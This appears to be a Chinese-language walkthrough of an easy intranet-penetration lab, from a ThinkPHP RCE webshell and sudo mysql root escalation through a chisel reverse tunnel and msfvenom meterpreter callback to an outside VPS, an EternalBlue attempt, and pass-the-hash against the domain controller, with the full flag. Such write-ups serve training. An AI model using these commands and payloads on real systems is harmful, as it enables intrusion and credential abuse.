

# Initial

Initial 是一套难度为简单的靶场环境，完成该挑战可以帮助玩家初步认识内网渗透的简单流程。该靶场只有一个 flag，各部分位于不同的机器上。

<!-- truncate -->

:::info

Tags

- DCSync
- CVE
- 域渗透

:::

```plaintext title="入口点"
39.98.122.69
```

## 入口点探测

使用 fscan 进行扫描

```plaintext
start infoscan
39.98.122.69:22 open
39.98.122.69:80 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://39.98.122.69       code:200 len:5578   title:Bootstrap Material Admin
```

访问 web 服务


其网站的 icon 符合 Thinkphp 的特征，尝试进行漏洞扫描


## 入口点 Thinkphp RCE

直接利用 tp5_construct_code_exec 漏洞，部署 webshell



蚁剑成功连接


直接使用插件进行反弹 shell


```bash
(remote) www-data@ubuntu-web01:/var/www/html$ whoami
www-data
```

## 入口点 提权

尝试使用 PEASS-ng 进行尝试

```plaintext
# 1
Vulnerable to CVE-2021-3560

# 2
Matching Defaults entries for www-data on ubuntu-web01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-web01:
    (root) NOPASSWD: /usr/bin/mysql
```

两个可能的利用点，直接尝试使用 Mysql 作为提权点

参考 [mysql | GTFOBins](https://gtfobins.github.io/gtfobins/mysql/)

```bash
(remote) www-data@ubuntu-web01:/tmp$ sudo mysql -e '\! /bin/sh'
(remote) root@ubuntu-web01:/tmp$ whoami
root
```

成功拿下入口点的最高权限

```bash
(remote) root@ubuntu-web01:/root# cat /root/flag/flag01.txt
 ██     ██ ██     ██       ███████   ███████       ██     ████     ██   ████████
░░██   ██ ░██    ████     ██░░░░░██ ░██░░░░██     ████   ░██░██   ░██  ██░░░░░░██
 ░░██ ██  ░██   ██░░██   ██     ░░██░██   ░██    ██░░██  ░██░░██  ░██ ██      ░░
  ░░███   ░██  ██  ░░██ ░██      ░██░███████    ██  ░░██ ░██ ░░██ ░██░██
   ██░██  ░██ ██████████░██      ░██░██░░░██   ██████████░██  ░░██░██░██    █████
  ██ ░░██ ░██░██░░░░░░██░░██     ██ ░██  ░░██ ░██░░░░░░██░██   ░░████░░██  ░░░░██
 ██   ░░██░██░██     ░██ ░░███████  ░██   ░░██░██     ░██░██    ░░███ ░░████████
░░     ░░ ░░ ░░      ░░   ░░░░░░░   ░░     ░░ ░░      ░░ ░░      ░░░   ░░░░░░░░

Congratulations!!! You found the first flag, the next flag may be in a server in the internal network.

flag01: flag{60b53231-
```

## 内网探测

```bash
(remote) root@ubuntu-web01:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.1.15  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe2d:d511  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:2d:d5:11  txqueuelen 1000  (Ethernet)
        RX packets 133451  bytes 130731033 (130.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 63164  bytes 8107818 (8.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 968  bytes 82390 (82.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 968  bytes 82390 (82.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用 fscan 扫描内网

```plaintext
start infoscan
(icmp) Target 172.22.1.15     is alive
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.18     is alive
(icmp) Target 172.22.1.21     is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.21:139 open
172.22.1.18:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.15:22 open
172.22.1.2:88 open
[*] alive ports len is: 14
start vulscan
[*] WebTitle http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] NetInfo
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetInfo
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetInfo
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[+] MS17-010 172.22.1.21        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] OsInfo 172.22.1.2   (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.1.2      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600
[*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.1.18        code:302 len:0      title:None 跳转 url: http://172.22.1.18?m=login
[*] WebTitle http://172.22.1.18?m=login code:200 len:4012   title: 信呼协同办公系统
[+] PocScan http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
已完成 14/14
[*] 扫描结束, 耗时: 7.836062616s
```

建立内网代理

```bash
# vps
root@jmt-projekt:~# ./tools/chisel_1.10.1/chisel_1.10.1_linux_amd64 server -p 9111 --reverse
2025/01/31 17:55:50 server: Reverse tunnelling enabled
2025/01/31 17:55:50 server: Fingerprint vexPfRUcumTTjXPUdQzBXdRz4PBXgZzRDod6aqtIs2I=
2025/01/31 17:55:50 server: Listening on http://0.0.0.0:9111

# trget
(remote) root@ubuntu-web01:/tmp# ./chisel_1.10.1_linux_amd64 client 8.***.***.180:9111 R:0.0.0.0:10000:socks &
[1] 20471
2025/01/31 17:56:11 client: Connecting to ws://8.***.***.180:9111
2025/01/31 17:56:12 client: Connected (Latency 49.587197ms)
```

## 172.22.1.21 MS17-010

启动 msfconsole 之后，先将入口点上线 msf

```bash
root@jmt-projekt:~/tools# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=8.***.***.180 LPORT=9999 -f elf > 8.***.***.180.9999.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes

root@jmt-projekt:~# msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:9999
[*] Sending stage (3045380 bytes) to 39.98.122.69
[*] Meterpreter session 1 opened (172.28.215.237:9999 -> 39.98.122.69:53282) at 2025-01-31 19:55:52 +0800

meterpreter > sysinfo
Computer     : 172.22.1.15
OS           : Ubuntu 20.04 (Linux 5.4.0-110-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

然后建立路由

```bash
meterpreter > run post/multi/manage/autoroute
[*] Running module against 172.22.1.15
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.22.0.0/255.255.0.0 from host's routing table.
```

对 `172.22.1.21 XIAORANG-WIN7` 这台靶机发起永恒之蓝攻击

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.22.1.21
RHOSTS => 172.22.1.21
```

运气问题，一直 Failed 状态正常情况是可以直接上线 msf 的，然后后续加载 kiwi 拿到域凭据

## 172.22.1.18 信呼 OA

弱密码 `admin:admin123` 可以直接进后台，或者 phpmyadmin 直接写入 webshell

可以直接拿到 flag2

## 172.22.1.2 DC

这里 DC 需要使用 win7 所得到的域凭据信息

```plaintext
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         172.22.1.2      445    DC01             [*] Windows Server 2016 Datacenter 14393 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:True)
SMB         172.22.1.2      445    DC01             [+] xiaorang.lab\administrator:10cf89a850fb1cdbe6bb432b859164c8 (Pwn3d!)
SMB         172.22.1.2      445    DC01             [+] Executed command
SMB         172.22.1.2      445    DC01             ___   ___
SMB         172.22.1.2      445    DC01             \\ / /       / /    // | |     //   ) ) //   ) )  // | |     /|    / / //   ) )
SMB         172.22.1.2      445    DC01             \  /       / /    //__| |    //   / / //___/ /  //__| |    //|   / / //
SMB         172.22.1.2      445    DC01             / /       / /    / ___  |   //   / / / ___ (   / ___  |   // |  / / //  ____
SMB         172.22.1.2      445    DC01             / /\\     / /    //    | |  //   / / //   | |  //    | |  //  | / / //    / /
SMB         172.22.1.2      445    DC01             / /  \\ __/ /___ //     | | ((___/ / //    | | //     | | //   |/ / ((____/ /
SMB         172.22.1.2      445    DC01
SMB         172.22.1.2      445    DC01
SMB         172.22.1.2      445    DC01             flag03: e8f88d0d43d6}
SMB         172.22.1.2      445    DC01
SMB         172.22.1.2      445    DC01             Unbelievable! ! You found the last flag, which means you have full control over the entire domain network.
```

或者

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains impacket-smbexec -hashes :10cf89a850fb1cdbe6bb432b859164c8 Administrator@172.22.1.2 -codec gbk
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  8.***.***.180:10000  ...  172.22.1.2:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\flag\flag03.txt
           ___   ___
 \\ / /       / /    // | |     //   ) ) //   ) )  // | |     /|    / / //   ) )
  \  /       / /    //__| |    //   / / //___/ /  //__| |    //|   / / //
  / /       / /    / ___  |   //   / / / ___ (   / ___  |   // |  / / //  ____
 / /\\     / /    //    | |  //   / / //   | |  //    | |  //  | / / //    / /
/ /  \\ __/ /___ //     | | ((___/ / //    | | //     | | //   |/ / ((____/ /


flag03: e8f88d0d43d6}

Unbelievable! ! You found the last flag, which means you have full control over the entire domain network.
```

## 完整 flag

```plaintext
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```
